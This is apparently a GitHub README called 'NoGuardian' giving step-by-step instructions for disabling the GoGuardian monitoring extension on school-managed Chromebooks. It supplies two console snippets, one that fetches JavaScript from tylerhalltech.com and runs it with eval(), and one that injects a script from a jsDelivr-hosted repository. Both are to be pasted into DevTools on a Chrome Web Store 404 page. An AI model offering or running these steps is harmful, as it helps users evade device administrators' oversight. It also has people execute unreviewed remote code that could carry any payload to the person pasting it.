 # noguardian
Exploit to Disable Chrome Extentions (to Bypass GoGuardian)

# NoGuardian ChomeBook Bypass

Here are the steps to exploit to ChromeBook Extensions (to Bypass GoGuardian)

UPDATE: JUST GO HERE: https://tylerhalltech.com/noguardian or here: https://tylerhalltech.com/noguardian2/

## 1) PREPARE EXPLOIT
Copy the code here:

## Code #1
```
fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

## Code #2 (BETTER THAN #1)
```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```


## 2) LOAD 404 PAGE

Go to `https://chrome.google.com/webstore_`

Press Ctrl + Shift + I on the 404 page to open Chrome's Developer Tools.

Go to the CONSOLE tab

Paste the code from step 1 here and press enter

You should now be able to disable any Google Chrome extension (including GoGuardian)
